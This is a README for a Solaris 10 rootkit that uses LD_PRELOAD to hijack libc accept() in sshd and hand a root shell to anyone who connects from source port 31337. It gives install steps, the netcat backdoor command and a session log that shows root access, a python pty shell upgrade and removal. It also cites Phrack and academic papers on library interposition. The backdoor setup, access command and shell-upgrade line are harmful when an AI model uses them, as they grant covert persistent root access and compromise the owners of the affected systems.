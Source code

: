 Solaris 10.x LD_PRELOAD sshd accept() rootkit

By: c papathanasiou  

Functionality:

We hijack the libc accept() call via LD_PRELOAD and yield back a 
non-interactive shell on the remote host. 

The .so file is placed under the trusted library path. 

This has been written to specifically target sshd on Solaris, although
other daemons (bind, sendmail, apached) can also be targeted. 

Installation:

To install -> `make all`

To uninstall -> `make clean`

To come in via the backdoor -> `nc -v -p 31337 remote-host 22`


---------------------------------------------------------------------

# make all

Installing Solaris LD_PRELOAD sshd accept() backdoor

Removing references to accept()..
Done
Compiling...
Done
Moving libhij.so to /lib/secure
Disabling ssh..
Done
Running crle to set LD_PRELOAD environment..
Done
Enabling ssh
Trojaned!!
# nc -v -p 31337 localhost 22
localhost [127.0.0.1] 22 (ssh) open
id
uid=0(root) gid=0(root)
python -c 'import pty; pty.spawn("/bin/bash")'
bash-3.00# uname -a
uname -a
SunOS unknown 5.10 Generic_137138-09 i86pc i386 i86pc
bash-3.00#

To uninstall: 

# make clean
Restarting ssh daemon...
rootkit removed..
# nc -v -p 31337 localhost 22
localhost [127.0.0.1] 22 (ssh) open
SSH-2.0-Sun_SSH_1.1
^CExiting.
#


---------------------------------------------------------------------
References:


[1] Halflife's paper: Phrack Magazine   Volume 7, Issue 51 September 
01, 1997

[2] Dynamic linker http://en.wikipedia.org/wiki/Dynamic_linker

[3] Toshihiro Tabata, K.S. Design of Intrusion Detection System at 
User Level with System-Call Interposing. in 1st International Conference
on E-Business and Telecommunication Networks. 2004. Portugal.

[4] Reverse Engineering with LD_PRELOAD 
http://securityvulns.com/articles/reveng/

[5] Benjamin A. Kuperman, E.S., Generation of Application Level Audit Data via Library Interposition (Technical Report). 1999, Purdue University, COAST Laboratory.

Links:

 http://www.phrack.org/issues.html?issue=54&id=10#article
 http://www.phrack.org/issues.html?issue=56&id=7#article
